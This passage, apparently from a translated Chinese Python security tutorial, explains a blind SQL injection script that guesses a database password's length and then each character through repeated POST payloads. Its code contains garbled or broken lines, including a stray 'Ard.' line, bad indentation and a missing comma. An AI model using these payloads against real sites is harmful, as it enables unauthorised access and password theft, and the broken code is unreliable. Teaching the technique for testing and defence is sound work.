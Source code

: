 首先，用户必须识别仅在 SQLi 成功时发生的字符串。或者，可以修改脚本以响应 SQLi 失败的证据缺失。我们将此字符串作为`sys.argv`变量提供。我们还创建了我们将在此脚本中使用的两个迭代器，并将它们设置为`1`，因为 MySQL 从`1`开始计数，而不是像失败的系统那样从`0`开始。我们还为我们未来的答案创建了一个空列表，并告知用户脚本正在启动：

```py
yes = sys.argv[1]

i = 1
asciivalue = 1
answer = []
print “Kicking off the attempt”
```

我们的有效载荷基本上请求我们试图返回的密码长度，并将其与将要迭代的值进行比较：

```py
payload = {'injection': '\'AND char_length(password) = '+str(i)+';#', 'Submit': 'submit'}
```

然后我们永远重复下一个循环，因为我们不知道密码有多长。我们将有效载荷提交到目标 URL 以进行`POST`请求：

```py
while True:
  req = requests.post('<target url>' data=payload)
```

每次检查我们最初设置的`yes`值是否出现在响应文本中，如果是，我们结束`while`循环，将`i`的当前值设置为参数长度。`break`命令是结束`while`循环的部分：

```py
lengthtest = req.text
  if yes in lengthtest:
    length = i
    break
```

如果我们没有检测到`yes`值，我们将`i`加`1`并继续循环：

```py
Ard.
else:
    i = i+1
```

使用目标字符串的已识别长度，我们遍历每个字符，并使用`asciivalue`，每个可能的字符值。对于每个值，我们将其提交到目标 URL。因为 ascii 表只运行到`127`，我们将循环限制到`asciivalue`达到`126`为止。如果达到`127`，则出现了问题：

```py
for x in range(1, length):
  while asciivalue < 126:
payload = {'injection': '\'AND (substr(password, '+str(x)+', 1)) = '+ chr(asciivalue)+';#', 'Submit': 'submit'}
    req = requests.post('<target url>', data=payload)
```

我们检查我们的是字符串是否出现在响应中，如果是，就跳转到下一个字符。我们将成功的消息以字符形式附加到我们的答案字符串中，并使用`chr`命令进行转换：

```py
if yes in req.text:
    answer.append(chr(asciivalue))
break
```
